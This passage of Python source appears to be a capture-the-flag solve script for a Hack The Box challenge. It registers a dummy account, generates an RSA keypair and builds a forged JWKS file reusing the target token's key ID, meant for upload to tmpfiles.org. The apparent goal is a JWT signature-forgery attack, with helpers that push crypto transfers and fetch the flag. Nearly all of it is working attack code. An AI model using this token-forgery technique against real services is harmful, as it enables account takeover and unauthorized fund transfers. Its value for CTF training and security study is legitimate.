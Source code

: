 ```Python
            if coin['symbol'] == COIN_SYMBOL:
                print(f'Balance for {COIN_SYMBOL}: {coin["availableBalance"]}')
                return coin['availableBalance']
        else:
            print(f'Failed to fetch balances: {r.text}')
    return 0

def make_transaction(token, to_email, coin, amount, otp):
    r = requests.post(
        f'{HOST}/api/crypto/transaction',
        json={'to': to_email, 'coin': coin, 'amount': amount, 'otp': otp},
        headers={'Authorization': f'Bearer {token}'}
    )
    if r.status_code == 200:
        print(f'Transaction of {amount} {coin} to {to_email} completed successfully.')
    else:
        print(f'Failed to make transaction to {to_email}: {r.text}')

def fetch_flag(token):
    r = requests.get(f'{HOST}/api/dashboard', headers={'Authorization': f'Bearer {token}'})
    if r.status_code == 200:
        data = r.json()
        if 'flag' in data:
            print(f'Flag: {data["flag"]}')
        else:
            print('Flag not found in the response.')
    else:
        print(f'Failed to fetch dashboard: {r.text}')

# Generating RSA keypair
private_key = rsa.generate_private_key(
    public_exponent=65537,
    key_size=2048
)
encrypted_pem_priv_key = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.NoEncryption()  
)
pem_public_key = private_key.public_key().public_bytes(
  encoding=serialization.Encoding.PEM,
  format=serialization.PublicFormat.SubjectPublicKeyInfo
)
priv_key = encrypted_pem_priv_key.decode()

# Creating user
dummy_user = {'email': f'{os.urandom(10).hex()}@htb.com', 'password': '1337'}

register_user(dummy_user['email'], dummy_user['password'])

if (dummy_token:=login_user(dummy_user['email'], dummy_user['password'])):
    send_friend_request(dummy_token, FINANCIAL_EMAIL)

kid = jwt.get_unverified_header(dummy_token)["kid"]
#Then we need an external endpoint so pushing the private JWKS file with custom kid to https://tmpfiles.org/
file_name = 'jwks.json'
url = 'https://tmpfiles.org/api/v1/upload'

# Write the file on the computer
with open(file_name, 'w') as f:
    json.dump({'keys': [{**jwk.JWK.from_pem(priv_key.encode()),**{'use':'sig', 'kid':kid, "alg": "RS256"}}]},f)
```